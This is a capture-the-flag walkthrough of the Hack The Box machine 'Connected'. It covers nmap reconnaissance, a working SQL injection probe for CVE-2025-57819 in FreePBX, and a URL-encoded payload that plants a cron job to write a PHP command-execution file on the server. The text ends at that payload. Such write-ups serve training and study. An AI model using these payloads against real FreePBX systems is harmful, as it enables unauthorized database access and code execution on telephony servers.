

--- 
title: 'Connected'
description: 'Walkthrough of the Connected machine in hack the box'
date: 2026-06-12
difficulty: Easy
authors:
  name: Bilash J. Shahi
  title: Cybersecurity enthusiast
  picture: https://avatars.githubusercontent.com/elodvk
  url: https://purplesec.org
tags:
  - 'Season 11'
  - Easy
  - 'CVE-2025-57819'
  - 'Linux'
  - 'freePBX'
image: walkthroughs/assets/connected_walkthrough.png
---



Connected is an easy linux machine from season 11 of hack the box. I started it on 2026-06-13. 

## Reconnaissance

### Network Mapping

```bash
nmap -sC -sV -p--T4 -oA connected_ 10.129.102.206
```

Output:
```
Nmap scan report for 10.129.102.206
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4e:60:38:6f:e7:78:6c:ca:58:62:a1:f1:56:ae:8d:30 (RSA)
|   256 12:41:55:26:9d:ad:3d:e8:bf:4e:31:aa:d7:d1:a5:d2 (ECDSA)
|_  256 8e:b6:96:e0:21:83:5d:1d:ce:8d:e2:6a:dd:38:c6:75 (ED25519)
80/tcp  open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
|_http-title: Did not follow redirect to http://connected.htb/
443/tcp open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
|_http-title: 400 Bad Request
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=pbxconnect/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2025-11-30T14:07:27
|_Not valid after:  2026-11-30T14:07:27

```

3 open ports were found - 22/tcp - SSH, 80/tcp - HTTP, 443/tcp - HTTPS

#### SSH

Since I did not have any username or password for SSH, I skipped it, and went on to check the other ports.

#### Web Server

The web interface automatically redirects to `http://connected.htb`, so I will update the `/etc/hosts` file. The redirection happened because of Virtual host configuration.

```shell
curl -I http://10.129.102.206`
```

Output:
```
HTTP/1.1 301 Moved Permanently
Date: Fri, 12 Jun 2026 18:54:46 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
Location: http://connected.htb/
Content-Type: text/html; charset=iso-8859-1
```

```bash
echo "10.129.102.206 connected.htb" | sudo tee -a /etc/hosts
```

### Identifying the Target Application

The web interface revealed FreePBX version 16.0.40.7. Rather than immediately fuzzing the application, it is worth checking whether the identified version is vulnerable to any publicly disclosed issues.

Research quickly revealed `CVE-2025-57819`, an unauthenticated SQL injection vulnerability affecting the Endpoint Manager component.

Before attempting full exploitation, the vulnerability was manually verified. The following command was used to verify the vulnerability:

```shell
curl -i -k "https://connected.htb/admin/ajax.php?module=FreePBX%5Cmodules%5Cendpoint%5Cajax&command=model&template=x&model=model&brand=x'+AND+EXTRACTVALUE(1,CONCAT('~USER:',(SELECT+USER()),'~'))+--+"
```

Output:
```
HTTP/1.1 500 Internal Server Error
Date: Fri, 12 Jun 2026 17:43:25 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
X-Powered-By: PHP/7.4.16
Set-Cookie: PHPSESSID=j62sqmnk729jtd3qe9fpdjh9kq; expires=Sun, 12-Jul-2026 17:43:25 GMT; Max-Age=2592000; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Connection: close
Transfer-Encoding: chunked
Content-Type: application/json

{"error":{"type":"Exception","message":"SQLSTATE[HY000]: General error: 1105 XPATH syntax error: '~USER:freepbxuser@localhost~'::","file":"\/var\/www\/html\/admin\/libraries\/utility.functions.php","line":123}} 
```

This proves the vulnerability because it returns the SQL user `freepbxuser@localhost`.

### Exploitation

I created a payload for the reverse shell, which I will upload in the `cron_jobs` table in the `asterisk` database. 

The payload I used is:

```shell
INSERT%20INTO%20cron_jobs%20%28modulename%2Cjobname%2Ccommand%2Cclass%2Cschedule%2Cmax_runtime%2Cenabled%2Cexecution_order%29%20VALUES%20%28%27sysadmin%27%2C%27takdak%27%2C%27echo%20%22PD9waHAgaGVhZGVyKCd4X3BvYzogQ1ZFLTIwMjUtNTc4MTknKTsgZWNobyBzaGVsbF9leGVjKCd1bmFtZSAtYScpOyB1bmxpbmsoX19GSUxFX18pOyA%2FPgo%3D%22%7Cbase64%20-d%20%3E%2Fvar%2Fwww%2Fhtml%2Frspgf.php%27%2CNULL%2C%27%2A%20%2A%20%2A%20%2A%20%2A%27%2C30%2C1%2C1%29%20--
```